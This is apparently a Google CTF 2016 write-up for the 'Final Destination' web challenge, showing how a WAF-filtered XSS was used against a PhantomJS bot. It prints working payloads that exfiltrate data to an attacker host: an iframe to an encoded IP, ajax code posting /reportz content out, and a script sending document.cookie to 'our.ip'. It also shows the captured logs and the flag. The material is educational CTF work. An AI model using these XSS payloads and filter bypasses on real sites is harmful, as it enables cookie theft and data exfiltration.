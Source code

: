 ```yaml
---
layout: post
title: Google CTF - Final Destination [WEB]
author: lanjelot
tags: [ctf, googlectf, web]
---
```


 * Competition: Google CTF
 * Challenge Name: Final Destination
 * Type: Web
 * Points: 200 pts
 * URL: https://ctf-final-destination.appspot.com/

<!--more-->


We solved this challenge after the CTF was over. It was only solved by 1 team during the competition and we could not find any writeup so we looked into it a bit more since the webapp was still up.

The Home page looked like this:

![alt](https://i.imgur.com/ZtkJm2i.png)

The `issue` field seemed to be vulnerable to XSS as the app did not encode `[<>=/]` however there was a WAF filtering out most special characters such as `[space"'.]`.

We confirmed it was an XSS challenge by submitting `<iframe/src=//101058054>` with our IP address encoded in decimal, and we got a visit from phantomjs:

```
-- 146.148.94.130 [2016-05-15 11:24:07,099]
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://ctf-final-destination.appspot.com/reportz
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
X-Secret: abcd6e03deb377e106c835ba3545ab08f8f7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip
```

Cool, maybe the flag is in the html of /reportz but we get 403 Forbidden when trying to access that page, even when sending that `X-Secret` header and `X-Forwarded-For: 127.0.0.1` (or 146.148.94.130, from which phantomjs outbounds).

Let's try some xhr then. We set up our index.html as follows:

```html
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>
<script type="text/javascript" charset="utf-8">
$.ajax({
     type: "GET",
     url: 'http://ctf-final-destination.appspot.com/reportz',
     async: false,
     dataType : 'html',
     withCredetials: true, // so that X-Secret and any Cookie or auth header are sent to /reportz
     success: function(data, status, xhr) {
       $.post("http://our.ip/success", btoa(data));
     },
     error: function(jqXHR, textStatus, ex) {
       t = (textStatus + "," + ex + "," + jqXHR.responseText);
       $.post("http://our.ip/error", btoa(t));
     }
});
</script>
```

And submit the `<iframe/src=//101058054>` payload again but unfortunately, we end up in the error function which I think is due to ctf-final-destination.appspot.com not sending any CORS headers.

```
-- 146.148.94.130 [2016-05-15 11:43:05,064]
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://ctf-final-destination.appspot.com/reportz
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
X-Secret: abcd6e03deb377e106c835ba3545ab08f8f7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip

-- 146.148.94.130 [2016-05-15 11:43:05,468]
POST /error HTTP/1.1
Accept: */*
Referer: http://101058054/
Origin: http://101058054
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 88
X-Secret: abcd6e03deb377e106c835ba3545ab08f8f7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip

ZXJyb3IsRXJyb3I6IE5FVFdPUktfRVJSOiBYTUxIdHRwUmVxdWVzdCBFeGNlcHRpb24gMTAxLHVuZGVmaW5lZA==
```

At this point, {{ site.data.authors.ace }} stepped in and found the following two tricks:

 1. Trick #1: we can use 0x0C instead of space to separate html tag attributes as the WAF doesn't filter it out. Thanks to [@cure53](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-5) for the fine research.
 1. Trick #2: let's try to use [html imports](https://html5sec.org/#138), a feature [supported](http://caniuse.com/#feat=imports) by webkit-based browsers and therefore phantomjs. Also note that the WAF filtered out obvious event handlers such as onerror etc.

OK so we change our index.html to `<script>window.location='http://our.ip/success?'+document.cookie;</script>` to net the cookies (in the other task "geokitties", the flag was in a cookie). Then we configure our web server to send the CORS header `Access-Control-Allow-Origin: *` and submit `issue=%3Clink%0Crel%3Dimport%0Chref%3D%2F%2F101058054%3E`

Helloooo mr. flag:

```
-- 146.148.94.130 [2016-05-15 12:07:20,137]
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Referer: http://ctf-final-destination.appspot.com/reportz
Origin: http://ctf-final-destination.appspot.com
Accept: */*
X-Secret: abcd6e03deb377e106c835ba3545ab08f8f7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip

-- 146.148.94.130 [2016-05-15 12:07:20,345]
GET /success?flag=CTF%7BWhich-vegetable-did-Noah-leave-off-the-Ark---Leeks%7D HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://ctf-final-destination.appspot.com/reportz
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: our.ip
```

Thanks to the CTF organizers for the cool challenges.

